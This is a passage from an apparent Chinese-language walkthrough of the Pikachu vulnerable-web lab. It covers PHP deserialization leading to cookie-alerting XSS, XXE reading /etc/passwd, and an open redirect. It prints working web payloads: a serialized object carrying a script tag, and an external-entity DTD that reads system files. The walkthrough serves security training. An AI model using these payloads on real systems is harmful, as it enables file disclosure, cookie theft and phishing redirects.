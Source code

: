 生成序列化数据如下

```php
O:1:"S":1:{s:4:"test";s:39:"<script>alert(document.cookie)</script>";}
```

提交后，弹出cookie

![pikachu83](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu83.png)

# XXE

## XXE漏洞

### 概述

- XXE（外部实体注入）是XML注入的一种，普通的XML注入利用面比较狭窄，如果有的话也是逻辑类漏洞；XXE扩大了攻击面
- 当允许引用外部实体时，就可能导致**任意文件读取、系统命令执行、内网端口探测、攻击内网网站**等危害
- 防御方法：禁用外部实体（PHP：可以将libxml_disable_entity_loader设置为TRUE来禁用外部实体）

![pikachu84](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu84.png)

我们利用外部实体注入，读取/etc/passwd文件，xml-dtd的payload如下

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>  <!DOCTYPE creds [   <!ENTITY goodies SYSTEM "file:///etc/passwd"> ]>  <creds>&goodies;</creds>
```

![pikachu85](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu85.png)

可以看到成功读取了文件进行显示

# URL重定向

## 不安全的url跳转

- 不安全的url跳转问题可能发生在一切执行了url地址跳转的地方
- 如果后端采用了前端传进来的(可能是用户传参,或者之前预埋在前端页的url地址)参数作为了跳转的目的地,而又没有做判断的话就可能发生"跳错对象"的问题
- url跳转比较直接的危害是:钓鱼,既攻击者使用漏洞方的域名(比如一个比较出名的公司域名往往会让用户放心的点击)做掩盖,而最终跳转的确实钓鱼网站

![pikachu86](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu86.png)

点击`我就是我,放荡不羁的我`后，url更新为

```
http://172.26.239.122/vul/urlredirect/urlredirect.php?url=i
```

尝试url字段修改为https://www.baidu.com

页面重定向到了https://www.baidu.com，这里恶意利用的话可以搭建恶意站点，诱导用户点击
